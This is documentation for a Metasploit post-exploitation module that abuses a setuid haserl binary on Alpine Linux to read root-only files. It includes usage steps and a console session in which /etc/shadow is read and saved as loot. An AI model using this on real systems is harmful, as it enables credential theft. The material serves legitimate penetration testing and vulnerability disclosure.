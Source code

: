 ## Vulnerable Application

[Haserl](http://haserl.sourceforge.net/) is an unmaintained tool to use LUA as CGI in web servers.
On Linux, when haserl is suid root, it will attempt to drop its privilege to the uid/gid of the owner of the cgi script,
similar to suexec in Apache.

Haserl could have been a thing of the past, but it's used in Alpine Linux'
[Alpine Configuration
Framework](https://wiki.alpinelinux.org/wiki/Alpine_Configuration_Framework_Design),
which is commonly used on this distribution.

This module exploits the fact that calling haserl on a file will make it not only change the effective UID,
but also display the content of the file.

This has been fixed in version 0.9.36.

### Prerequisites

1. Install Alpine Linux
2. Install haserl

## Verification Steps

1. Start msfconsole
2. Get a shell
3. Do: `use post/linux/gather/haserl_read`
4. Set `SESSION`
5. Do: `run` or `exploit`
6. **Verify** that the file was successfully downloaded

## Options

### RFILE

Remote file to download, defaults to `/etc/shadow`.


## Scenarios

```
msf6 > use post/linux/gather/haserl_read 
msf6 post(linux/gather/haserl_read) > show options 

Module options (post/linux/gather/haserl_read):

   Name     Current Setting         Required  Description
   ----     ---------------         --------  -----------
   RFILE    /etc/shadow             yes       File to read
   SESSION  1                       yes       The session to run this module on.

msf6 post(linux/gather/haserl_read) > run

[!] SESSION may not be compatible with this module.
[+] Found set-uid haserl: /usr/bin/haserl-lua53
[+] Shadow saved in: /home/user/.msf4/loot/20210301204020_default_192.168.138.113_haserl_shadow_107368.txt
[*] Post module execution completed
msf6 post(linux/gather/haserl_read) >
```

## Reference
1. https://twitter.com/steaIth/status/1364940271054712842
